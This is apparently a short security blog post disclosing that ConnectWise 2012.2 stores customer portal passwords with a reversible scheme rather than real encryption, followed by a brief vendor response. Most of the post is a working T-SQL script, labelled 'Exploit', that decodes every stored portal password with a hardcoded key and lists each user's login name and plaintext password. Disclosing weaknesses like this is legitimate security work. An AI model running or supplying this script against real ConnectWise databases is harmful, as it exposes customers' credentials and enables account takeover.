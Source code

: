```yaml
---
layout: post
title:  Connectwise Password Recovery
description: Connectwise user password recovery from poor encryption
fullview: true
---
```


### Connectwise password decryption and recovery

The release notes for the 2012.2 edition of Connectwise claim, as a welcome feature, "The customer portal password ... is now encrypted". Unfortunately, what we see is not encryption. What we see is pointless, reversible exercise in incompetence. 

### Exploit
The below SQL script will produce a table featuring every user's login name and password. 

{% highlight sql %}
BEGIN

DECLARE
	@KeyValue       nchar(15),
	@OutputValue    varchar(20),
	@Working        nchar(10),
	@WorkingKey     nchar(10),
	@Username		nchar(32),
	@LoopCount      integer,
	@CalcKey        integer,
	@WorkingInt     integer,
	@WorkingKeyInt  integer,
	@InputValue nchar(20)
        
DECLARE pass_cursor CURSOR FOR 
	SELECT CM_Password, Description
	FROM dbo.Contact, dbo.Contact_Communication 
	WHERE contact.Contact_RecID = Contact_Communication.Contact_RecID
	AND Communication_Type_RecID = '1'
	AND CM_Password is not NULL

OPEN pass_cursor

FETCH NEXT FROM pass_cursor 
INTO @InputValue, @Username

WHILE @@FETCH_STATUS = 0
BEGIN
	SET @KeyValue = 'RASCENCRYPT101R'
	SET @LoopCount = 1
	SET @OutputValue = ''
        WHILE len(@InputValue) >= @LoopCount
                BEGIN
                SET @Working = ascii(substring(@InputValue, @LoopCount, 1))
                SET @WorkingKey = ascii(substring(@KeyValue, @LoopCount, 1))
                IF convert(integer, @Working) < convert(integer, @WorkingKey)
                        BEGIN
                        SET @Working = char(convert(integer, (@Working + 255)) -
							convert(integer, @WorkingKey))
                        END
                ELSE
                        BEGIN
                        SET @Working = char(convert(integer, @Working) - convert
							(integer, @WorkingKey))
                        END
                SET @LoopCount = @LoopCount + 1
                SET @OutputValue = @OutputValue + convert(char(1), @working)
         END


	SELECT @Username, @outputvalue

    FETCH NEXT FROM pass_cursor 
    INTO @InputValue, @Username

END

CLOSE pass_cursor;
DEALLOCATE pass_cursor;

END

{% endhighlight %}


### Vendor Response
The vendor responds "Connectwise is secured through the purchase of an SSL certificate" (WTF?) 
